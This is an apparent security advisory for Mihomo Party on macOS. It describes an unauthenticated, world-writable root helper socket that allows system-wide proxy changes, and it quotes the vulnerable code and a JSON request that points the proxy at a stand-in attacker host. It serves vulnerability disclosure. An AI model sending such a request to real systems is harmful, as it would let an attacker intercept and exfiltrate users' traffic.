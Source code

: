 # Local privilege abuse via unprotected UNIX socket in Mihomo Party Helper on macOS

## Summary

Mihomo Party for macOS before version 1.8.1 exposes a root-owned UNIX socket (`/tmp/mihomo-party-helper.sock`) with world-readable and writable permissions. This socket accepts unauthenticated HTTP requests for setting system-wide proxy configurations. A local attacker can connect to this socket and configure the system to route all traffic through an attacker-controlled server, leading to potential man-in-the-middle (MiTM) attacks and data exfiltration.

## Technical Details

The vulnerable code resides in [src/main/sys/sysproxy.ts](https://github.com/mihomo-party-org/mihomo-party/blob/0a064bdbb8fe16c8727d3c95bd1dd3acf6043da9/src/main/sys/sysproxy.ts), specifically in the `enableSysProxy()` function:

```ts
await helperRequest(() =>
  axios.post(
    'http://localhost/global',
    { host: host || '127.0.0.1', port: port.toString(), bypass: bypass.join(',') },
    {
      socketPath: helperSocketPath // = "/tmp/mihomo-party-helper.sock"
    }
  )
)
```

There is no access control: the privileged helper blindly executes system-level network commands based on any request that reaches the UNIX socket, such as:
```json
{
  "host": "evil.attacker.com",
  "port": "1337",
  "bypass": "localhost,127.0.0.1"
}
```

The helper process runs as root and uses macOS's networksetup or equivalent system APIs to apply proxy changes system-wide.

## Proof-of-Concept

>Note: The only prerequisite is that the victim needs to enable the privileged user in order to use the functionality. (Allowing the TCC prompt):

<img width="1582" height="1210" alt="party1" src="https://github.com/user-attachments/assets/26b0db10-bfa0-498e-8b70-879fa2991e58" />

Once granted, a UNIX domain socket is created at:
```
ls -l /tmp/mihomo-party-helper.sock
```
